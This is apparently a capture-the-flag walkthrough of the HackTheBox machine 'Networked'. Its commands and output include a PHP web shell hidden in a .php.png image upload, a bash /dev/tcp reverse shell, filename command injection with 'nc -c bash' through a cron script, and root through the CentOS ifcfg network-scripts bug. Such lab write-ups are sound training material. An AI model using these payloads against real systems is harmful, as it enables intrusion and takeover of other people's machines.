

# Networked: 10.10.10.146

## Hints

- A malicious file upload is the way to get a foothold via a webserver configuration that wants to execute anything with PHP in the file name
- Privesc to a user involves a cron entry looking for malicious file uploads
- Privesc to root involves exploiting an unusual bug in CentOS/RedHat and the networking scripts it uses

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```

From the banner on HTTP - looks like a CentOS box running an older version of PHP. Did a full port scan and didn't find anything else open. Since there is not much else to look at, stating with web.

## 80: Recon

Having a look at the website, there is some text displayed.



Checking the website source code, there is a comment about an upload and gallery endpoint.

```none
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

Time to run a `gobuster` scan to find some any other directories on the webserver. Added PHP extensions, as `nmap` reported that PHP was installed on the server.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u 10.10.10.146 -o logs/gobuster_80_root_medium.log -x php
```

Got back some interesting results and a couple files and directories to look at.

```none
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/] 
/upload.php           (Status: 200) [Size: 169]                                   
/photos.php           (Status: 200) [Size: 1302]
```

This website had a reference to [FaceSmash](https://en.wikipedia.org/wiki/History_of_Facebook#FaceMash). For those who haven't seen the FaceBook movie, this website was about uploading and rating photos. This helps put some context to the directories and files we found, as it looks like the website has the functionality to upload, store and display images.

The `upload.php` page provides the ability to upload files.


The `photos.php` page displays uploaded files, from the `uploads` folder that `gobuster` found. We can tell the folder by viewing an image, for example: `http://10.10.10.146/uploads/127_0_0_4.png`.


Finally, there is a `backup` folder that has an open directory listing and a file named `backup.tar`.


## Bypassing File Upload Restrictions

I am guessing the `backup.tar` file is a copy of the website source code. The plan of action is to review the source code, find a problem with the upload feature, upload a PHP websell, then brose to it to get code execution.

The `upload.php` has a block of code that checks the uploaded file.

```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
    echo '<pre>Invalid image file.</pre>';
    displayform();
}
```

To upload a valid file, it must be under 60,000 bytes and pass the `check_file_type` function check. This function is in the `lib.php` file. Instead of running through the entire code, the overview of the code checks the following:

- Check the uploaded file mime type using the `finfo_file` PHP function
- Check the uploaded file has a valid image file extension, by splitting the file name string
- Check the `Content-Type` header, which must start with `image/`

After walking through the code for a while and doing some testing, it seems this file upload exploit will be targeting a problem with a misconfiguration of Apache that will execute a PHP file if the `.php` extension is anywhere in the filename. This seems like the only way to get around the file upload check.

Start by fetching a valid image. I was reading the [File Upload article on HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload), so I grabbed the HackTricks image logo:

```none
wget https://gblobscdn.gitbook.com/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Favatar.png?alt=media -O hacktricks.php.png
```

Note that I added the `.php` string into the filename when downloading. This is required to get code execution. I opened the image file in `vim` and added some PHP code about 5 lines down in the file. I had to try a couple of times, putting the PHP code in different places in the files.

```none
<?php system($_REQUEST["cmd"]) ?>
```

Since we need to pass a mime type check when uploading the file, it makes sense to check that the modified file is still being reported as an image.

```none
└─$ file hacktricks.php.png 
hacktricks.php.png: PNG image data, 256 x 256, 8-bit/color RGBA, non-interlaced
```

Now what we have the `hacktricks.php.png` ready to go, we can upload the file without intercepting and modifying the request - as the image will bypass all upload restrictions. After the upload is done, we can view it on the `photos.php` page. 


To get the code to execute, we need to load the actual file, and not just the image that is displayed in the photos page. Luckily we can see the uploaded file name, as displayed above. So we can craft the URL for the file and add a parameter for `cmd`, such as `id`.

```none
http://10.10.10.146/uploads/10_10_14_9.php.png?cmd=id
```

Success! Code execution! We can see the `id` command was run as the `apache` user.


From here we can do the usual bash reverse shell. I always find the best way is to intercept the request in Burp, then modify the payload.

```none
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'
```

Make sure to URL encode the payload, then start a netcat listener.

```none
└─$ nc -lvnp 9001                               
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.146] 60596
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

Success! A shell as `apache`.

## Privesc: `apache` to `guly`

While looking for the user flag, noticed the user `guly` who had some interesting files in their home directory.

```none
bash-4.2$ ls -lis
ls -lis
total 12
 8466059 4 -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
13052677 4 -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
13053629 4 -r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

From the `crontab.guly` file, we can see there is an entry that will run the `check_attack.php` file every 3 minutes.

```none
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

If we can modify the script, we can get code execution as `guly`. The `check_attack.php` script is quite interesting as it leverages the `lib.php` file that we have already seen. It has two `exec` statements, where one of these statements has a variable that we control - the name (without extension) of a file we can upload (or just create in the uploads folder).

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

I think the machine author tried to make this a little harder by naming the uploaded file name as `$value`, instead of something like `$filename`. We can just inject any filename, and close the command using a semi colon (`;`) then a command of our choice.

I started by changing to the web uploads directory, as this is where the script checks for uploaded files.

```none
cd /var/www/html/uploads
```

And created a file with the name: `;touch meow;`. This should simply create a file named `meow`. This is a good PoC to see we have code execution, and we can see if the created file is owned by the `guly` user too.

```none
touch ';touch meow;'
```

We can confirm this is working, as it will create the file named `meow`. I am guessing this will be in the `guly` home folder, as this is where to cron file is located.

```none
[guly@networked ~]$ ls -lis /home/guly/meow
12825595 0 -rw-r--r-- 1 guly guly 0 Sep 25 03:48 /home/guly/meow
```

This PoC confirms the filename exploit works, now we can make a more complex payload to get a reverse shell. I had to do a lot of research for this step, as you cannot use slashes in a Linux file name. This means that most of the common reverse shells cannot be used. Finally found a method to leverage netcat with the `-c` option to execute code (thanks ippsec). For the code to execute, we can call bash to connect to our attacking machine.

```none
touch ';nc -c bash 10.10.14.9 9001;'
```

And we get a shell back on our netcat listener and have elevated to the `guly` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.146] 60608
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

## Privesc: `guly` to `root`

Started with some manual enumeration, as that seemed the most suitable for this box. Checking `sudo`, there is an entry.

```none
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

As `root` we can run `changename.sh` without supplying a password. Checking the permissions on the `changename.sh` script, we can only read it.

```none
[guly@networked ~]$ ls -lis /usr/local/sbin/changename.sh
13052640 4 -rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
```

The script reads in some user input to help create a file called `ifcfg-guly` in the `/etc/sysconfig/network-scripts/` folder. Initially this seems harmless, however, there is a known vulnerability. According the the [HackTricks Linux Priviledge Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-sysconfig-network-scripts-centos-redhat) article, if there is a blank space in any variable set in this file, it will get executed as a command. If we try the script out, for the last attribute I entered `meow id` and the `id` command was run.

```none
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
meow
interface PROXY_METHOD:
meow
interface BROWSER_ONLY:
meow
interface BOOTPROTO:
meow id
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

This is pretty simple to get a `root` shell. Just add in `/bin/bash` on a line and we can get a bash shell as root.

```none
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
meow
interface PROXY_METHOD:
meow
interface BROWSER_ONLY:
meow
interface BOOTPROTO:
meow /bin/bash
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Netcat has an option (`-c`) to execute code.
- Debugging scripts is much easier if you try run the code locally.

## Useful Resources

- [HackTheBox - Networked by ippsec](https://www.youtube.com/watch?v=H3t3G70bakM)
- [HTB: Networked by 0xdf](https://0xdf.gitlab.io/2019/11/16/htb-networked.html)
